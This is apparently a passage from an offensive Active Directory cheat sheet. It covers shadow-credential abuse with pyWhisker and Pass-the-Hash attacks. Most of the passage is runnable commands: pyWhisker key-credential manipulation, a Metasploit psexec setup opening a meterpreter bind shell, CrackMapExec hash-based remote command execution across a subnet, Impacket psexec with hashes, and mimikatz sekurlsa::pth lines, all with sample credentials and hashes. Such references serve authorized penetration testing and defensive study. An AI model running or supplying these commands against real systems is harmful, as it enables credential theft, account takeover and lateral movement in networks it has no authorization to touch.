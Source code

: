     ```

 - From Linux, use [pyWhisker](https://github.com/ShutdownRepo/pyWhisker):
    ```bash
    # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
    python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
    # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
    python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename "test1"
    # Removes a key credential from the target object specified by a DeviceID GUID.
    python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id "a8ce856e-9b58-61f9-8fd3-b079689eb46e"
    ```


### Pass-the-Hash

The types of hashes you can use with Pass-The-Hash are NT or NTLM hashes. Since Windows Vista, attackers have been unable to pass-the-hash to local admin accounts that weren’t the built-in RID 500.

* Metasploit
  ```powershell
  use exploit/windows/smb/psexec
  set RHOST 10.2.0.3
  set SMBUser jarrieta
  set SMBPass nastyCutt3r  
  # NOTE1: The password can be replaced by a hash to execute a `pass the hash` attack.
  # NOTE2: Require the full NTLM hash, you may need to add the "blank" LM (aad3b435b51404eeaad3b435b51404ee)
  set PAYLOAD windows/meterpreter/bind_tcp
  run
  shell
  ```
* CrackMapExec
  ```powershell
  cme smb 10.2.0.2/24 -u jarrieta -H 'aad3b435b51404eeaad3b435b51404ee:489a04c09a5debbc9b975356693e179d' -x "whoami"
  ```
* Impacket suite
  ```powershell
  proxychains python ./psexec.py jarrieta@10.2.0.2 -hashes :489a04c09a5debbc9b975356693e179d
  ```
* Windows RDP and mimikatz
  ```powershell
  sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:b73fdfe10e87b4ca5c0d957f81de6863
  sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the users ntlm hash> /run:"mstsc.exe /restrictedadmin"
  ```
